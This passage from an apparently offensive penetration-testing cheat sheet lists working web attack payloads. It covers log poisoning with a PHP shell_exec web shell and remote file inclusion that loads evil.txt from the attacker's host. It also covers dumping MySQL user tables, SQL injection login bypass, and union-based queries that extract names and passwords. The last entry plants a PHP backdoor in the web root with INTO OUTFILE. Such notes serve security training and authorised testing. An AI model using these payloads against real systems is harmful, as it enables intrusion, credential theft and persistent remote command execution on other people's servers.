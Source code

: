     -   Contaminating Log Files <?php echo
        shell\_exec($\_GET\['cmd'\]);?>

    -   For a Remote File Inclusion look for php code that is not
        sanitized and passed to the PHP include function and the php.ini
        file must be configured to allow remote files
        /etc/php5/cgi/php.ini - “allow\_url\_fopen” and
        “allow\_url\_include both set to “on”  
        include($\_REQUEST\["file"\].".php");

    -   Remote File Inclusion  
        [http://$ip/addguestbook.php?name=a&comment=b&LANG=http://$localip/evil.txt](http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt)  
        <?php echo shell\_exec("ipconfig");?>

-   <span id="_mgu7e3u7svak" class="anchor"><span id="_Toc480741820" class="anchor"></span></span>Database Vulnerabilities
    ----------------------------------------------------------------------------------------------------------------------

    -   MySQL SQL

    -   Grab password hashes from a web application mysql database
        called “Users” - once you have the MySQL root username and
        password  
        mysql -u root -p -h $ip  
        use "Users"  
        show tables;  
        select \* from users;

    -   Authentication Bypass  
        name='wronguser' or 1=1;\#  
        name='wronguser' or 1=1 LIMIT 1;\#

    -   Enumerating the Database  
        [http://$ip/comment.php?id=738](http://192.168.11.35/comment.php?id=738)’  
        Verbose error message?  
        http://$ip/comment.php?id=738 order by 1  
        http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6  
        Determine MySQL Version:  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,@@version,6  
        current user being used for the database connection  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,user(),6  
        we can enumerate database tables and column structures  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,table\_name,6 FROM information\_schema.tables  
        target the users table in the database  
        http://$ip/comment.php?id=738 union all select
        1,2,3,4,column\_name,6 FROM information\_schema.columns where
        table\_name='users'  
        extract the name and password  
        http://$ip/comment.php?id=738 union select
        1,2,3,4,concat(name,0x3a, password),6 FROM users  
        Create a backdoor  
        http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php
        echo shell\_exec($\_GET\['cmd'\]);?>",6 into OUTFILE
        'c:/xampp/htdocs/backdoor.php'
